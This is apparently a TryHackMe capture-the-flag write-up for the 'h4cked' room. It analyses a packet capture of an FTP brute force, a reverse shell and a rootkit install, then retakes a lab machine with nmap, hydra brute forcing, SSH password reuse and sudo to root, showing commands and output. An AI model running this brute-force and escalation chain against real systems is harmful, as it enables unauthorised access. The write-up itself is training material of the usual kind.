










# h4cked

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/h4cked](https://tryhackme.com/room/h4cked)

**Difficulty:** Easy

**Category:** Mixed (Offensive + Defensive)

**Description:**

- Name: h4cked
- Additional Info: Find out what happened by analysing a .pcap file and hack your way back into the machine

**Scenario:**



## TLDR

A `pcap`file is left behind from an attack on the server. FTP credentials was brute forced by the attacker. The attacker got access to the system by a reverse shell and added `Reptile`, the rootkit for persistent access. The attacker changed the password, but it was simple and brute forceable. With the password, login to SSH is possible, from which root is achieved. 

## Part 1: Investigating the Packet Capture

This is a guided challenge so there are a lot of questions to answer.

1. `The attacker is trying to log into a specific service. What service is this?`  
    
    This should be obvious since `FTP` takes up majority of the traffic. 
    
2. `There is a very popular tool by Van Hauser which can be used to brute force a series of  services. What is the name of this tool?` 
    
    When it comes to brute forcing, only a handful are “very popular”. The one made by **Van Hauser** is called `hydra`. Other tools are `john the ripper` and `hashcat`.
    
3. `The attacker is trying to log on with a specific username. What is the username?`
    
    This is seen clearly in packets 80 and above. But it is better to develop a habit of using **filters** and **find** options instead of manual searching. Pressing `ctrl + F` in Wireshark brings it up, and we can add `user` to it.  
    
    
    

1. `What is the user's password?`
    
    The same can be done here. If `pass` is specified, many different passwords can be seen from the brute forcing attack. When the password is incorrect, the system outputs `Login incorrect`. So if `login` is searched, somewhere we could also find `login correct` or the like.
    
    
    
    To find the password, we must backtrack to see what the user had input. But with so many packets, it is tiring. So, it is possible to right click the packet and select `follow tcp stream`, which will only show the packets belonging to that session. 
    
    
    
    So the password is `password123`. The attacker uploaded his backdoor on the victim’s machine and changed its permissions to `777`, which means anybody can read write and execute it. The attacker will execute this to establish a connection with the victim and get foothold in their system. 
    
2. `What is the current FTP working directory after the attacker logged in?`
    
    This can also be answered from the same TCP stream. 
    
3. `The attacker uploaded a backdoor. What is the backdoor's filename?`
    
    And so can this. Following TCP stream is quite a powerful feature. 
    
4. `The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?` 
    
    Any files transferred over `FTP` can be viewed from the `FTP-Data` filter which includes their content as well.  
    
    
    
    The contents of the reverse shell shows the URL from where it can be downloaded. 
    
    
    

1. `Which command did the attacker manually execute after getting a reverse shell?`
    
    After the backdoor was uploaded, there is a bunch of TCP packets. The first few packets initiates the connection and from where the attacker did `GET /shell.php` to execute the reverse shell and get access to the system. 
    
    
    
    If this stream was `tcp.stream eq 19` then the next stream must be when the attacker got access to the system, which would also contain his commands. 
    
    
    
    This is very useful since the attacker’s commands is visible. Then, he switched to jenny. 
    
2. `What is the computer's hostname?`
    
    Visible in the stream above. 
    
3. `Which command did the attacker execute to spawn a new TTY shell?`
    
    The shell the attacker was on initially was `/bin/sh`. The attacker executed the Python command to spawn `/bin/bash` which is a better shell with more features. 
    
4. `Which command was executed to gain a root shell?`
    
    The attacker checked jenny’s permissions on the computer using `sudo -l`, which shows what commands the user can run as root. In this case, jenny had unrestricted permissions and could execute all commands as root.
    
    
    

1. `The attacker downloaded something from GitHub. What is the name of the GitHub project?`
    
    The attacker cloned a GitHub repository. This repo is used to make a very stealthy backdoor in any system, which is very hard to detect. Because of this, the repository in the stream has been disabled. 
    
    
    

1. `The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?` 
    
    This type of backdoor is called a `rootkit`. A rootkit is a type of malicious software designed to hide its presence and give an attacker stealthy, persistent control over a computer system, usually with administrator (root) privileges. 
    

## Part 2: Hacking our Way Back

Scenario: 



### Initial Reconnaissance

Starting off with an nmap scan like usual. 

```bash
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/h4cked]
└─$ nmap -A <IP> -oN nmapresult.txt
Nmap scan report for 10.49.185.65
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 07:a8:67:dc:47:05:bd:33:54:a4:64:b1:c7:94:86:75 (RSA)
|   256 f6:c5:1a:5f:e8:65:84:b1:c9:65:ad:da:3c:f9:de:c5 (ECDSA)
|_  256 51:b9:6b:c7:6f:0e:9b:53:23:10:f9:b2:aa:d1:4f:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=5/4%OT=21%CT=1%CU=40952%PV=Y%DS=4%DC=T%G=Y%TM=69F84F20
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=104%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=109%TI=Z%C
OS:I=Z%II=I%TS=A)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FF%GCD
OS:=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M4E8ST11NW7%O2=M4E8ST11NW7%O3=M4E8
OS:NNT11NW7%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M4E8ST11)WIN(W1=F4B3%W2=F4B3%W
OS:3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M4E8NNSNW7%CC=
OS:Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z
OS:%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G
OS:%RUCK=AE21%RUD=G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK
OS:=AE2B%RUD=G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=AE45
OS:%RUD=G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=AE5F%RUD=
OS:G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=AE6B%RUD=G)IE(
OS:R=Y%DFI=N%T=40%CD=S)

Uptime guess: 39.064 days (since Thu Mar 26 12:00:43 2026)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   0.72 ms  DESKTOP-HD4J4TP.mshome.net (172.24.16.1)
2   59.21 ms 192.168.128.1
3   ...
4   42.10 ms 10.49.185.65

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May  4 13:32:44 2026 -- 1 IP address (1 host up) scanned in 33.92 seconds
```

3 ports are open: `21 (FTP), 22 (SSH), 80 (HTTP)`. 

### Brute Forcing FTP

As this is a guided challenge, we are asked to run hydra on FTP because “the attacker might not have chosen a complex password”. I would have explored FTP and HTTP first to try and find other clues since it is not a good practice to dive straight into brute force. 

```bash
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/h4cked]
└─$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://<IP>
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-04 13:39:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.49.185.65:21/
[21][ftp] host: 10.49.185.65   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-04 13:39:49
```

As expected the password was found in `rockyou.txt`.

With this, it is possible to access FTP. 

### Logging in Through SSH

But wait. Password reuse is a very common trope - both in real life and in CTFs. it is always good to try password of one service in other services. 

Let’s try and access SSH directly with the password above. 

```bash
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/h4cked]
└─$ ssh jenny@10.49.185.65
The authenticity of host '10.49.185.65 (10.49.185.65)' can't be established.
ED25519 key fingerprint is: SHA256:MsDUtd3hHdak6mNSW3wPDwcfCWdQ7pDnnd0kk2EzKVo
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.49.185.65' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
jenny@10.49.185.65's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
```

And we are in! If the passwords had been different, a reverse shell would have to be uploaded to FTP and ry and get access through that. 

Now that I think about it, in the original `pcap` file, the hacker also used the same password as FTP to escalate from www-data to jenny after getting a shell on the machine. The hacker could have logged in to ssh directly like I did above lol. 

### Escalating to Root

From the `pcap` file, we already know jenny has unrestricted permissions on the machine. This can be confirmed again via `sudo -l`. 

```bash
jenny@ip-10-49-185-65:~$ sudo -l
[sudo] password for jenny:
Matching Defaults entries for jenny on ip-10-49-185-65:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on ip-10-49-185-65:
    (ALL : ALL) ALL
```

It is possible to switch to root directly through `sudo su`. 

```bash
jenny@ip-10-49-185-65:~$ sudo su
root@ip-10-49-185-65:/home/jenny# cd
root@ip-10-49-185-65:~# ls -al
total 28
drwx------  5 root root 4096 Jun 29  2025 .
drwxr-xr-x 23 root root 4096 May  4 07:45 ..
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwxr-xr-x  7 root root 4096 Feb  2  2021 Reptile
drwx------  3 root root 4096 Apr 27  2025 snap
drwx------  2 root root 4096 Apr 27  2025 .ssh
-rw-------  1 root root    0 Jun 29  2025 .viminfo
root@ip-10-49-185-65:~# cd Reptile/
root@ip-10-49-185-65:~/Reptile# ls -al
total 44
drwxr-xr-x 7 root root 4096 Feb  2  2021 .
drwx------ 5 root root 4096 Jun 29  2025 ..
drwxr-xr-x 2 root root 4096 Feb  1  2021 configs
-rw-r--r-- 1 root root   33 Feb  2  2021 flag.txt
-rw-r--r-- 1 root root 1922 Feb  1  2021 Kconfig
drwxr-xr-x 7 root root 4096 Feb  1  2021 kernel
-rw-r--r-- 1 root root 1852 Feb  1  2021 Makefile
drwxr-xr-x 2 root root 4096 Feb  1  2021 output
-rw-r--r-- 1 root root 2183 Feb  1  2021 README.md
drwxr-xr-x 4 root root 4096 Feb  1  2021 scripts
drwxr-xr-x 6 root root 4096 Feb  1  2021 userland
root@ip-10-49-185-65:~/Reptile# cat flag.txt
REDACTED
```

And we have successfully recovered the machine. 

## Exploitation Chain Summary

| Step | Action | Result |
| --- | --- | --- |
| 1 | Analyze pcap file to view attacker’s actions | FTP Credentials achieved `jenny:password123`; Understood how attacker got access. |
| 2 | Login with the same credentials | Action denied. Password had been changed |
| 3 | Brute force FTP password | Password found `987654321` |
| 4 | Try the FTP password on SSH | Login possible; Password had been reused. |
| 5 | Check user permissions. | Unrestricted permissions with sudo `sudo -l`. |
| 6 | Escalate to root with the password `sudo su` | Root flag achieved. |
